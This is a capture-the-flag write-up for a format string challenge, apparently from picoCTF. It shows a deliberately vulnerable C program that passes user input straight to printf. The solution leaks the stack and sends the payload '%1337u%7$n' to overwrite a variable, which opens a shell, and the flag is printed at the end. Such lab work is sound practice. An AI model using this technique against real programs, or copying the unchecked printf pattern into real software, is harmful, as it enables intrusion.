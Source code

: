Format - 70
===========

### Desc:
This program is vulnerable to a format string attack! See if you can modify a variable by supplying a format string! The binary can be found at /home/format/ on the shell server.

### Hint:
There is already a pointer to the variable on the stack! Also, %n may be useful!

### Vulnerable code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>

int secret = 0;

void give_shell(){
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
    system("/bin/sh -i");
}

int main(int argc, char **argv){
    int *ptr = &secret;
    printf(argv[1]);

    if (secret == 1337){
        give_shell();
    }
    return 0;
}

```

### Getting the flag:

```
(gdb) p &secret
$2 = (<data variable, no debug info> *) 0x804a030 <secret>

$ ./format $(python -c "print '%x.'*7")
ffffd7c4.ffffd7d0.f7e4f39d.f7fc83c4.f7ffd000.804852b.804a030.

$ ./format '%1337u%7$n'                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               $ id
uid=13315(pico22418) gid=1008(format) groups=1017(picogroup)
$ cat flag.txt
who_thought_%n_was_a_good_idea?
```
